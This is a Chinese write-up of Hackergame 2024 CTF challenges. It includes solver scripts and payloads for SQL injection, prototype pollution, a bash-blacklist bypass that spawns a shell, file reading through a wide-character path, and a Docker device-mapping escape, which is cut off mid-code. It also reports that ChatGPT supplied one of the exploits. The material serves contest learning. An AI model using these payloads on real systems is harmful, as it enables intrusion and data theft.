

# littleTT's Hackergame 2024 Writeup

<!--这篇 Writeup 也会发布在[我（刚建好的）的博客]()中。-->

~~我能在患有 ddl * 3 的情况下写完这篇 WP 吗~~

<!--[TOC]-->

## 签到

> 别说这歌还挺洗脑

先随便提交一下，发现多了一个 `pass=false` 的 query。改成 `pass=true` 即可获得 flag。

**`flag{wE!c0Me-to-HaCKeRg4ME-and-3Njoy-hACkINg-ZOZ4}`**


## 喜欢做签到的 CTFer 你们好呀

> 签到++

一开始没意识到“招新主页”应该是个网站，在搜到的 [github repo 的 README](https://github.com/Nebula-CTFTeam/Recruitment-2024/blob/main/README.md) 里找了半天有没有隐藏信息。  
最后翻了半天才发现[（真正的？）招新主页](https://www.nebuu.la/)。

### Checkin Again

先 `help` 看一看有什么可以用的命令，再把每个命令都试一遍。~~然后就被 `sudo` 创飞了。~~  
于是就在 `env` 里找到了 flag。

**`flag{actually_theres_another_flag_here_trY_to_f1nD_1t_y0urself___join_us_ustc_nebula}`**

### Checkin Again & Again

找了半天没有发现别的东西，就顺手（真的是顺手！）输入了 `ls -la`，发现根目录还有一个隐藏的 `.flag` 文件，用 `cat .flag` 显示出来就好。

**`flag{0k_175_a_h1dd3n_s3c3rt_f14g___please_join_us_ustc_nebula_anD_two_maJor_requirements_aRe_shown_somewhere_else}`**


## 猫咪问答（Hackergame 十周年纪念版）

> 喵喵喵喵喵喵喵喵喵喵（祝猫咪问答十周年快乐）

### 喵？

1. 首先找到 ~~Hackergame~~ [信息安全大赛 2015 的~~新~~旧闻](https://lug.ustc.edu.cn/wiki/sec/contest.html)，得到答案是 **3A204**。

2. 从主页上的链接进到每年 Hackergame 的 Writeup 统计题数（2019：28、2020：31、2021：31、2022：33、2023：29），得到 2019 年最接近 25 题。（话说题目怎么越来越多了）  
找到当年[结束总结的新闻](https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/)，得到答案是 **2682**。

把这两个答案提交上去，得到 60 分即可拿到第一个 flag。

**`flag{α_9ØØd_caT_1S_THE_C47_ωh0_C@И_P4$5_thE_QU12}`**

### 喵！

3. 从 [Hackergame 2018 repo 的花絮](https://github.com/ustclug/hackergame2018-writeups/blob/master/misc/others.md)里找到答案为 **程序员的自我修养**。

4. 首先根据提示找到对应的[论文](https://www.usenix.org/system/files/usenixsecurity24-ma-jinrui.pdf)，~~然后用量子波动速读法就能在1ns内找到答案了~~，扫一遍全文之后在第 ⑨ 页的 Section 6 里面找到答案。

> Consequently, we propose six types of email spoofing attacks and measure their impact across 16 email services and 20 clients. All 20 clients are configured as MUAs for all 16 providers via IMAP, resulting in **336** combinations (including 16 web interfaces of target providers). 

5. 这个应该在各种新闻里都能找到，但我偷懒直接[问了 ChatGPT](https://chatgpt.com/share/672efb9b-d3fc-800d-b5d8-03390ba59746)，他直接把[源网页](https://lore.kernel.org/linux-kernel/a520d1f5-8273-d67e-97fe-67f73edce9f1%40linux-m68k.org/)和 commit id **6e90b6**75cf942e50 都丢给我了。  
~~但从之后的对话中我们能看出 ChatGPT 也没有那么靠谱。~~

6. 一开始把源码丢给了一个在线的 [Llama 3 tokenizer](https://lunary.ai/llama3-tokenizer)，得到一共 1837 个token。提交上去发现不对，于是写了一个脚本从 1800 开始往上试，一会就得到答案为 **1833**。

```python
import re
import time

d = {
    "q1": "3A204",
    "q2": "2682",
    "q3": "程序员的自我修养",
    "q4": "336",
    "q5": "6e90b6",
    "q6": "1837",
}
for i in range(1800, 2000):
    d["q6"] = str(i)
    response = requests.post("http://202.38.93.141:13030/", data=d, headers={"Cookie": ""})
    score = re.search(r"本次测验总得分为 (\d+)。", response.text).group(1)
    if score != "95":
        print(i, score)
        break
    time.sleep(0.1)
```

因为有 Cookie，所以脚本跑完正确答案后刷新一遍网页就可以看到满分的 flag 了。（好评！）

**`flag{7eИ_yEΛЯS_0F_Ha©kERg4m3_oM3d37Oบ_W!7H_NEkØ_quiz}`**


## 打不开的盒

> 只看标题还以为是要开盒

喜闻乐见的~~开盒~~ 3D 模型环节。在网上随便找一个 [stl viewer](https://imagetostl.com/cn/view-stl-online)，把模型丢进去放大就能看到 flag 了。

**`flag{Dr4W_Us!nG_fR3E_C4D!!w0W}`**


## 每日论文太多了！

> 今年 meta 元素是不是有点多

打开论文的 pdf，搜索 flag，发现高亮出现在了一个奇怪的地方(?)。打开 pdf 编辑器，发现上面盖了一个白色矩形。删掉就能看到下面写在图片里的 flag 了。  
~~学会了，下次我也要在发顶会的时候埋彩蛋~~
[~~关注EXCALIBUR谢谢喵~~](https://openaccess.thecvf.com/content/CVPR2023/papers/Zhu_EXCALIBUR_Encouraging_and_Evaluating_Embodied_Exploration_CVPR_2023_paper.pdf)



**`flag{h4PpY_hAck1ng_3veRyd4y}`**

## 比大小王

> 时~光~倒~流~

随便尝试几次抓一下包，发现每局游戏都是先 `POST /game` 得到一个形如 `{"values": [[x, y] * 100]}` 的 json。分析 html 中 script 的逻辑，发现每进行一次比较都会把比较的结果字符（`'<'` 或 `'>'`）加入 `state.inputs` 中，最后在游戏结束后把 `{"inputs": state.inputs}` 发送到 `POST /submit`。  
所以我们可以写一个简单的脚本把每次比较的结果直接算出来，按照上述逻辑上传即可得到 flag。  
注意游戏里从收到数据到开始有 3 秒钟的延迟，所以我们不能立刻 post 答案。~~否则就会被时空警察逮捕~~

```python
import requests
import time

host = "http://202.38.93.141:12122"
headers={"Cookie": ""}
response = requests.post(f"{host}/game", headers=headers)

values = response.json()["values"]
inputs = []
for x, y in values:
    if x > y:
        inputs.append(">")
    else:
        inputs.append("<")

time.sleep(5)

response = requests.post(f"{host}/submit", headers=headers, json={"inputs": inputs})
print(response.json()["message"])
```

**`flag{!-@m-tHE-H@CkEr-KiN9-0f-c0MP4r1NG-numB3rS-z0Z4}`**


## 旅行照片 4.0

> 这是我倒数第三道做出来的题...

### LEO_CHAN?

1. 搜索“科里科气科创驿站”，找到了 USTC 的[这篇新闻](https://iat.ustc.edu.cn/iat/x199/20220901/5860.html)，在地图上搜索一下就可以发现驿站在**东校区西门**外。

2. 搜索“中科大 ACG 音乐会”，找到 [LEO 酱的 b 站账号](https://space.bilibili.com/7021308)。翻一翻动态就可以找到[今年 ACG 音乐会布置的照片](https://www.bilibili.com/opus/930934582351495204)，得到答案 **20240519**。  
~~精选评论：“能办一辈子acg音乐会吗（”~~

**`flag{5UB5CR1B3_T0_L30_CH4N_0N_B1L1B1L1_PLZ_819a58a5ad}`**

### FULL_RECALL

3. 在垃圾桶上看到了疑似“六安园林”的字样，结合不太常见的彩虹色跑道，搜索到了六安市的**中央森林公园**。

4. 把图扔进 Google 或者 Yandex 直接识别一下，就能找到三峡坝址基石的图，搜索可知其位于宜昌**坛子岭**风景区内。

**`flag{D3T41LS_M4TT3R_1F_R3V3RS3_S34RCH_1S_1MP0SS1BL3_5f3543295d}`**

### OMINOUS_BELL

5. 找到线路后先搜索了沿途的几个车站，但在地图上都没有找到类似的结构，遂作罢。（这里吐槽一下百度地图对海外 IP 真的不太友好...每次搜索都要做一遍验证码）临近结束的时候才想起来这题还没做，于是从北京北站开始沿着线路找有没有变宽的地方，终于在京新高速龙泽附近找到了能对上的结构。最近的医院就是北京**积水潭医院**（新龙泽院区）。  
~~我一个北京人怎么都不知道这里还有个积水潭医院~~

6. 看到左下角不太常见的粉色涂装，搜索“四编组动车 粉色”得到北京怀柔密云线，继而得到动车组型号为 **CRH6F-A**。

**`flag{1_C4NT_C0NT1NU3_TH3_5T0RY_4NYM0R3_50M30N3_PLZ_H3LP_69e42fa1c0}`**


## 不宽的宽字符

> 唉，C++，唉

因为提供了源代码，所以加上一些 `cout` 就可以看到输入的字符对应的 `c_str()` 的内容啦。  
观察发现 ASCII 字符会在后面补一个字节的 0，而 Unicode 字符会按照 UTF-16 编码并保存后两个字节。  
于是我们可以构建一串汉字使得每个字可以被解码成 `Z:\theflag` 中的两位，最后再补一个 `\0` 就可以了。

```python
from pwn import *
import os

r = remote("202.38.93.141", 14202)
r.recvline()
r.sendline(os.environ["TOKEN"].encode())
r.recvline()

payload = ""
l = list("Z:\\theflag".encode()) + [0, 0xFF]
for i in range(0, len(l), 2):
    x = [0xFF, 0xFE, l[i], l[i + 1]]
    s = bytes(x).decode("utf-16")
    payload += s

r.sendline(payload.encode("utf-8"))
r.interactive()
```

**`flag{wider_char_isnt_so_great_dfe07d1dac}`**


## PowerfulShell

> Make Power(ful)Shell Great Again!

这题也卡了我很久，感觉很简单但就是对不上电波。  
首先搜索 "bash injection bypassing blacklists"，查到了[这篇总结](https://github.com/welchbj/ctf/blob/master/docs/injections.md#bash)。里面提到了 [bash's internal variables](https://tldp.org/LDP/abs/html/internalvariables.html)，于是把所有能用的特殊字符都试了一遍，得到：

```
$[] = 0
$$ = 7
$_ = input
$- = hB
~ = /players
```

然后...我就卡了。当时没有理解 `eval $input` 的意思，所以完全没有往字符串拼接的方向去想。  
最终是在一次手贱的过程中把两个部分打在一起了，发现 `$-$[] = hB0`，于是打开了新世界的大门(x)  
火速[去问了 ChatGPT](https://chatgpt.com/share/672fbd1a-141c-800d-ae5f-b40192319782)，发现可以直接拼出 `sh`，那接下来不就为所欲为了？

```python
from pwn import *
import os


def write_line(line):
    print(f"sending {line}")
    r.recvuntil(b"> ")
    r.sendline(line.encode())
    print(r.recvline().decode())

r = remote("202.38.93.141", 12554)
r.recvline()
r.sendline(os.environ["TOKEN"].encode())

write_line("__=~")                  # /players
write_line("___=$-")                # hB
write_line("${__:7:1}${___:$[]:1}") # sh
r.interactive()                     # enter cat /flag
```

**`flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_f7f66e3101}`**


## Node.js is Web Scale

> ChatGPT Is All You Need for Web

说实话这道题我现在都不知道怎么做出来的(?)

题目只给了一个源代码文件，于是直接[扔给 ChatGPT 找漏洞](https://chatgpt.com/share/672eeb5e-8724-800d-b16c-db2e8606d860) 。  
ChatGPT 上来就是一个 Prototype Pollution，然后扔给我一个 payload。传上去就直接能看到 flag 了。

```http
POST /set HTTP/1.1
Content-Type: application/json

{
  "key": "__proto__.exploit",
  "value": "cat /flag"
}

GET /execute?cmd=exploit HTTP/1.1
```

**`flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_2e6c80b0f0}`**


## PaoluGPT

> 不会把我问 GPT flag 的对话也公开了吧）

先看源码发现这里有明显的 SQL 注入：

```python
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```

### 千里挑一

这么多文章一篇一篇翻也太麻烦了，于是直接找 contents 里面含有 flag 的文章：

```
/view?conversation_id=1' UNION SELECT title, contents FROM messages WHERE contents LIKE '%flag%'--
```

打开一看，你给我干哪来了，这哪有 flag 啊？后来发现是要翻到最下面才能看到...

**`flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_8ab76b390d}`**

### 窥视未知

#### 未知？

从 `/list` 的处理上我们能看到表里还有 `shown` 这个字段，那根据标题我们就要找 `shown = false` 的那篇隐藏文章：

```
/view?conversation_id=1' UNION SELECT title, contents FROM messages WHERE shown = false--
```

翻到最下面就能看到第二个 flag。

**`flag{zU1_xiA0_de_11m_Pa0lule!!!_6c5fd3cf85}`**

#### 已知！

因为隐藏的文章也肯定包括 flag 这个单词，所以用第一部分的思路也能搞到这篇文章。  
不过源码里只会显示返回的第一项，所以我们只要加一个 offset 就能看到第二篇文章了：

```
/view?conversation_id=1' UNION SELECT title, contents FROM messages WHERE contents LIKE '%flag%' LIMIT 1 OFFSET 1--
```


## 强大的正则表达式

> 強靭 ★ 無敵 ★ 最強

### Easy

小学一年级的同学们都知道要判断一个数是不是 4 的倍数只要看后两位就行了，因为 $4 \times 25 = 100$ 导致高位都是 4 的倍数。那么对于 16 的倍数，我们只需要看后四位就行了。  
但这里还有一个小小的问题，如果一个数不到四位长，那么给我们的字符串不会包括前缀的 0，所以我们要把这些小的数单独考虑，或在最后就可以了。

```python
s = set()
x = 0
while x < 10000:
    s.add(f"{x:04d}")
    x += 16

l = set()
x = 0
while x < 1000:
    l.add(str(x))
    x += 16

number = "(0|1|2|3|4|5|6|7|8|9)"
r = f"({number}*({'|'.join(s)}))"
ex = f"({r}|{'|'.join(l)})"
```

**`flag{p0werful_r3gular_expressi0n_easy_32bf004863}`**

### Medium

搜索 "regular expression binary multiple of 13"，看到一个[讨论 3 的倍数的帖子](https://stackoverflow.com/questions/7974655/regex-for-binary-multiple-of-3)。  
本质上是构建一个 DFA，每一个状态对应处理到当前前缀时对应的数模 3 的余数。而每个转移都相当于原本的数加上新的一位，所以对于这道题我们可以构建这样一个 DFA:  
状态 `S = range(13)`，转移方程 `T(i, '0') = (i * 2) % 13, T(i, '1') = (i * 2 + 1) % 13`  
在 github 上搜一搜 "dfa to regex"，找到[一个能用的](https://github.com/antok33/DFA-to-regular-expression/blob/master/dfa_to_regex.py)直接调包即可：

```python
num_state = 13
starting_state = "0"
approve_state = DFA_to_REGEX.filtering_input("0")
alphabet = DFA_to_REGEX.filtering_input("0,1")
sequence_of_elimination = ",".join(str(i) for i in range(13))
sequence_of_elimination = DFA_to_REGEX.filtering_input(sequence_of_elimination)

trans_table = {}
for i in range(num_state):
    trans_table[str(i)] = {}
    for k in range(len(alphabet)):
        state = str((i * 2 + int(alphabet[k])) % num_state)
        if state in trans_table[str(i)]:
            trans_table[str(i)][state] += "|" + alphabet[k]
        else:
            trans_table[str(i)][state] = alphabet[k]

ins = DFA_to_REGEX(trans_table, starting_state, approve_state, alphabet)
gnfa = DFA_to_REGEX.dfa_to_gnfa(ins)
last_gnfa = DFA_to_REGEX.main(gnfa, sequence_of_elimination)
regular_expression = last_gnfa["s"]["f"]
ex = regular_expression.replace("e", "")
```

**`flag{pow3rful_r3gular_expressi0n_medium_7b04375bfc}`**

### Hard

和第二部分类似，CRC3 一共有 8 种可能的输出，于是我们的 DFA 就要有 8 种状态。注意空字符串的 CRC3 是 7，所以我们的起始状态应该是 7 而不是 0。  
而这次输入的字符集是 0 到 9，所以我们只要遍历一遍这 80 种转移就可以了。

```python
import libscrc

alphabet = "0123456789"
d = dict()
for c1 in alphabet:
    start = libscrc.gsm3(c1.encode())
    d[start] = dict()
    for c2 in alphabet:
        end = libscrc.gsm3((c1 + c2).encode())
        d[start][c2] = end

num_state = 8
starting_state = "7"
approve_state = DFA_to_REGEX.filtering_input("0")
alphabet = DFA_to_REGEX.filtering_input(",".join(str(i) for i in range(10)))
sequence_of_elimination = ",".join(str(i) for i in range(8))
sequence_of_elimination = DFA_to_REGEX.filtering_input(sequence_of_elimination)

trans_table = {}
for i in range(num_state):
    trans_table[str(i)] = {}
    for k in range(len(alphabet)):
        state = str(t[i][alphabet[k]])
        if state in trans_table[str(i)]:
            trans_table[str(i)][state] += "|" + alphabet[k]
        else:
            trans_table[str(i)][state] = alphabet[k]

ins = DFA_to_REGEX(trans_table, starting_state, approve_state, alphabet)
gnfa = DFA_to_REGEX.dfa_to_gnfa(ins)
last_gnfa = DFA_to_REGEX.main(gnfa, sequence_of_elimination)
regular_expression = last_gnfa["s"]["f"]
ex = regular_expression.replace("e", "")
```

最后这个表达式只有 92777 个字符，远远小于题目要求的最大长度 1000000。

**`flag{p0werful_r3gular_expr3ssion_hard_9f772c3e8f}`**


## 惜字如金 3.0

> XZRJificated WritUp Can B Found [Her](https://youtu.be/dQw4w9WgXcQ?si=4TOtunBgchVDsHJC)

### 题目 A

直接按照规则修复每一行代码直至每个单词都被高亮即可。

**`flag{C0mpl3ted-Th3-Pyth0n-C0de-N0w}`**

### 题目 B

按照第一部分修复完发现第 7 行 CRC48 的多项式不见了，然后...我又卡了。这个 b 哈希怎么看都不能取逆吧）  
过了很久之后再重新读了一遍 `crc` 的代码，发现如果只输入一个字节 `\x7F`，那么输出的结果就会是 `flip ^ 0xFF0000000000`。类似的，如果输入是 `\xFF\x7F`，那么就会输出 `flip ^ 0xFFFF00000000`。  
那么如果我们重复构建这样的输入，我们就能得到可控的 `hash` 前结果。把他们的 `hash` 过程扔给伟大的 z3 就可以解出 `flip` 的值了。

```python
import requests
from z3 import *

target = "http://202.38.93.141:19975/answer_b.py"

def get_hash(line):
    with open("2.py", "r") as f:
        l = f.readlines()
    l = [_.encode() for _ in l]
    l[6] = bytes(line) + b"\n"

    response = requests.post(target, headers={"Cookie": ""}, data=b"".join(l))
    message = response.json()["wrong_hints"]["7"]
    h = message.split("(")[1].split(")")[0]
    return int(bytes.fromhex(h)[::-1].hex(), 16)


x = BitVec("x", 48)
u2 = BitVecVal(241818181881667, 48)
u1 = BitVecVal(279270832074457, 48)
u0 = BitVecVal(202208575380941, 48)

f = (1 << 48) - 1
s = Solver()
for i in range(3):
    c = (f << (40 - i * 8)) & f
    b = [0xFF] * i + [0x7F]
    t = get_hash(b)

    c = BitVecVal(c, 48)
    t = BitVecVal(t, 48)
    s.add(((x ^ c) * ((x ^ c) * u2 + u1) + u0) == t)
s.check()
m = s.model()

flip = m[x].as_long()
poly = bin(flip)[2:][::-1].replace("1", "B").replace("0", "b")

line = f"    poly, poly_degree = 'B{poly}', 48 \n"
with open("2.py", "r") as f:
    l = f.readlines()
l[6] = line
with open("2.py", "w") as f:
    f.write("".join(l))

response = requests.post(target, headers={"Cookie": ""}, data="".join(l))
print(response.json())
```

**`flag{Succe55fu11y-Deduced-A-CRC-Po1ynomia1}`**


## 优雅的不等式

> 这下在知乎乱刷的“注意到...”终于派上用场了

🤓☝我之前刚好在知乎看到了一篇[相关的专栏](https://zhuanlan.zhihu.com/p/669285539)，还收藏了以备不时之需。总结一下就是形如
$$\int_0^1 \frac{x^n(1-x)^n(a+bx+cx^2)}{1+x^2}dx$$
的积分可以得到 $\pi, \ln2, 1$ 的线性组合。  
那么我们只要对于某个 $n$ 的值稍微计算一下 $a, b, c$，使得 $\pi$ 的系数是 1、$\ln2$ 的系数是 0、常数项是负的目标有理数，且 $a+bx+cx^2$ 在 $[0, 1]$ 上非负就 Q.E.D. 了！

### Easy

取 $n = 1$，得到
$$\int_0^1 \frac{x(1-x)(a+bx+cx^2)}{1+x^2}dx = \frac{a-b-c}{4}\pi + \frac{a+b-c}{2}\ln2 + \frac{-6a+3b+7c}{6}$$
那么我们可以得到这个方程组
$$\begin{cases}
a-b-c&=4 \\
a+b-c&=0 \\
-6a+3b+7c&=-16
\end{cases}$$
解得 $a=4,b=-2,c=2$，验证一下 $4-2x+2x^2$ 在 $[0,1]$ 上非负即可提交：

```python
x * (1-x) * (4-2*x+2*x**2) / (1+x**2)
```

**`flag{y0u_ar3_g0od_at_constructi0n_34ba9b9df2}`**

### Hard

上面的过程比较复杂，有整整 3 个系数需要我们求解，解出来的有理数可能很快就超过 400 的最大长度限制了。那么有没有更简单的式子呢？  
诶，还是那个专栏，翻到最下面我们可以看到一个只有两个系数的积分：
$$\int_0^1 \frac{x^{2n}(1-x^2)^n(a+bx^2)}{1+x^2}dx$$
这个积分的结果不会包含 $\ln2$ 的项。那么我们只需要 $\pi$ 的系数为 1，常数项为负的目标有理数，且 $f(0)=a \geq 0, f(1)=a+b \geq 0$ 即可。

因为交互时间有限，我们可以先把每一个 $n$ 对应的 $\pi$ 的系数和常数项关于 $a$ 和 $b$ 的表达式计算好，这样在开始交互之后每轮我们只需要解一个简单的二元一次方程即可。

```python
from pwn import *
import sympy
import os
import pickle


a, b, x = sympy.symbols("a b x")
if os.path.exists("attention.pickle"):
    with open("attention.pickle", "rb") as f:
        N, integral = pickle.load(f)
else:
    N = 101
    integral = [None] * N
    for k in range(1, N):
        s = f"x**{2*k} * (1 - x**2)**{k} * (a + b*x**2) / (1 + x**2)"
        f = sympy.parsing.sympy_parser.parse_expr(s)
        i = sympy.integrate(f, (x, 0, 1))
        i = i.simplify()
        p = i.coeff(sympy.pi)
        c = (i - i.coeff(sympy.pi) * sympy.pi).simplify()
        integral[k] = (p, c)

    with open("inq.pickle", "wb") as f:
        pickle.dump(integral, f)

r = remote("202.38.93.141", 14514)
r.recvline()
r.sendline(os.environ["TOKEN"].encode())

# difficulty 0
r.recvuntil(b"f(x): ")
r.sendline(b"4*((1-x**2)**(1/2)-(1-x))")

# difficulty 1
r.recvuntil(b"f(x): ")
r.sendline(b"x*(1-x)*(4-2*x+2*x**2)/(1+x**2)")
r.recvline()
print(r.recvline().decode().strip())

# difficulty 2+
def solve(n):
    r.recvuntil(b"pi>=")
    frac = r.recvline().decode().strip()
    if "/" in frac:
        p, q = map(int, frac.split("/"))
    else:
        p = int(frac)
        q = 1
    print(f"p={p}\nq={q}")
    p = sympy.Integer(p)
    q = sympy.Integer(q)
    r.recvuntil(b"f(x): ")

    for i in range(n, N):
        pi, c = integral[i]
        sol = sympy.solve([pi - 1, c + p / q], (a, b))
        sa, sb = sol[a], sol[b]
        if sa >= 0 and sa + sb >= 0:
            na, da = sa.as_numer_denom()
            nb, db = sb.as_numer_denom()
            d = max(da, db)
            na = sa * d
            nb = sb * d
            s = f"x**{2*i}*(1-x**2)**{i}*({na}+{nb}*x**2)/(1+x**2)/{d}"
            if len(s) <= 400:
                print(f"difficulty {n} solution found at {i} with {len(s)} chars")
                break
    r.sendline(s.encode())

for n in range(2, 40):
    solve(n)
r.interactive()
```

最后一轮在 $n=65$ 左右就能找到符合长度要求的解。

**`flag{y0u_ar3_7he_Ramanujan_0f_in3quality_0601257eac}`**

## 无法获得的秘密

> 什么时候能发明脑机接口啊

尝试一下可以看到 `/secret` 是个 512KB 的二进制文件，然后环境里没有任何外部网络连接，所以只能用视觉方法把文件搞出来。  
我最开始想用 `base64` 编码，在录屏后用 OCR 把编码重建一遍。但奈何带宽太低（不知道是不是因为我在海外？），图像一片模糊，OCR 愉快的罢工了。只好用更 robust 的二进制编码，0 显示为 `'0'`，1 显示为 `' '`，然后根据每个字符框内亮度的平均值过一个阈值来判断每位数。  
把终端放到最大可以得到 `36x100` 的字符。吸取 base64 的教训，我只用了前 34 行显示数据，第 35 行用来显示本页数据的 CRC32 用于校验（虽然由于二进制太 robust 了 CRC 没派上一点用），最后一行用于显示本页页码以防顺序错乱。  
最终记录下 1234 张图片，在本地再处理一遍重建文件即可。

**生成页面及截图交互**

整体运行下来应该刚好能在一个 session 的 15 分钟内跑完。  
写这种键鼠控制的脚本一定要注意退出条件，我第一个脚本差点用某些奇怪的快捷键把 Windows 缩放调到 500% 了（被迫赛博灯泡x）

```python
import pyautogui
import mss
import time

code = """rm a.py
vi a.py
i
def generate_crc32_table():
table = []
for i in range(256):
crc = i
for _ in range(8):
if crc & 1:
crc = (crc >> 1) ^ 0xEDB88320
\belse:
crc >>= 1
\b\btable.append(crc)
\breturn table

CRC32_TABLE = generate_crc32_table()

def crc32(data):
crc = 0xFFFFFFFF
for byte in data:
crc = (crc >> 8) ^ CRC32_TABLE[(crc ^ byte) & 0xFF]
\bres = crc ^ 0xFFFFFFFF
return res.to_bytes(4, byteorder='big')

with open("/secret", "rb") as f:
c = f.read()
\bn = 3400 // 8
for i in [1233]:
i *= n
#for i in range(1000 * n, len(c), n):
s = ""
for b in c[i:]:
x = bin(b)[2:]
s += x.zfill(8)
\bprint(s.replace("1", " ")+"0")
s = ""
for b in crc32(c[i:]):
x = bin(b)[2:]
s += x.zfill(8)
\bprint(s.replace("1", " ")+"0")
a = "0"+bin(i//n)[2:].replace("1", " ")+"0"
input(a.ljust(30))"""

time.sleep(5)
pyautogui.typewrite(code)
time.sleep(2)
pyautogui.press("esc")
time.sleep(0.5)
pyautogui.typewrite(":wq\n")
time.sleep(0.5)
pyautogui.typewrite("python3 a.py")

total_len = 524288
n = 3400 // 8
with mss.mss() as sct:
    for i in range(1234):
        pyautogui.press("enter")
        time.sleep(1)
        sct.shot(output=f"img/{i+4000}.png")
        time.sleep(0.5)
```

**截图分析**

最后一张图有一些边界条件，我基本是在 jupyter notebook 里边调边跑的，所以这个脚本可能不完全能用

```python
import numpy as np
import cv2
import tqdm
import os


def generate_crc32_table():
    table = []
    for i in range(256):
        crc = i
        for _ in range(8):
            if crc & 1:
                crc = (crc >> 1) ^ 0xEDB88320
            else:
                crc >>= 1
        table.append(crc)
    return table

CRC32_TABLE = generate_crc32_table()

def crc32(data: bytes) -> int:
    crc = 0xFFFFFFFF
    for byte in data:
        crc = (crc >> 8) ^ CRC32_TABLE[(crc ^ byte) & 0xFF]
    res = crc ^ 0xFFFFFFFF
    return res.to_bytes(4, byteorder="big")


l = []
for filename in os.listdir("img"):
    im = cv2.imread(f"img/{filename}", cv2.IMREAD_GRAYSCALE)
    for y in range(311, 311 + 38 * 36, 38):
        for x in range(135, 135 + 20 * 100, 20):
            l.append(im[y : y + 39, x : x + 21].mean())

x = np.array(l) / 255
x = x.reshape(-1, 36, 100)
x = (x < 0.1).astype(np.uint8)

d = dict()
for i in range(x.shape[0]):
    im = x[i][:34]
    data = "".join(map(str, im.flatten()))
    data = int(data, 2).to_bytes(34 * 100 // 8, "big")
    crc = crc32(data)

    valid = x[i, 34, :32]
    valid = int("".join(map(str, valid)), 2).to_bytes(4, "big")

    n = x[i, 35, :20]
    n = "".join(map(str, n)).rstrip("1")[1:-1]
    n = int(n, 2)
    if crc != valid:
        # 1233 is expected to fail
        print(f"image {n} has wrong crc")
    else:
        d[n] = data

# last picture is not full screen
l = []
im = cv2.imread(f"img/1233.png", cv2.IMREAD_GRAYSCALE)
for y in range(311, 311 + 38 * 36, 38):
    for x in range(135, 135 + 20 * 100, 20):
        l.append(im[y : y + 39, x : x + 21].mean())

im = np.array(l) / 255
im = im.reshape(36, 100)
im = (im < 0.1).astype(np.uint8)

data = im[13:-1].flatten()
data = "".join(map(str, data)).rstrip("1")[:-1]
crc = data[-32:]
data = data[:-32]
data = int(data, 2).to_bytes(len(data) // 8, "big")
crc = int(crc, 2).to_bytes(4, "big")
assert crc32(data) == crc
d[1233] = data

res = b""
for i in range(1234):
    res += d[i]
with open("secret", "wb") as f:
    f.write(res)
```

把 `secret` 交上去就能拿到 flag 了（话说这是个啥文件，有彩蛋吗）

**`flag{SeCret_cAN_B3_Le4K3d_FrOm_R3s7RIc7Ed_Env_0c285f6000}`**

## Docker for Everyone Plus

> 和 `rz` 搏斗的一整天

一开始看到支持 ZMODEM，[一些不好的回忆](https://github.com/PKU-GeekGame/geekgame-3rd/tree/master/official_writeup/prob05-zserver)涌上心头。  
从箱底翻出 MobaXTerm 试图上传一个文件，一看，怎么被 skip 了？再试，再 skip？  
是不是 Windows 和 WSL 的文件系统不兼容啊，借室友的 Mac 用 iTerm2 试一下，怎么还是被 skip？  
于是就在这里卡了一整天。晚上吃饭的时候灵光乍现，意识到如果我们权限很低是不是不能随便写文件啊。随手打开 `/tmp` 尝试上传，成了！

### No Enough Privilege

看题目要求基本上是要上传一个自制的 docker image，用 `sudo docker run --rm -u 1000:1000` 在容器里越过权限读取到 flag。  
用 `ls -la` 注意到 `/flag` 是一个指向 `/dev/vdb` 的软链接。同时对比第二问的环境发现可以用 `--device` 来把容器外的 device 映射到容器内（老师你这个第二问题干里不是有第一问的解法吗x）  
于是我们可以创建一个 minimal image，在里面包括一个有 root 权限的脚本，从容器里映射好的 device 里读出 flag 即可。

```c
#include <stdio.h>
int main()
{
    FILE *f = fopen("/dev/vdb", "r");
    int c;
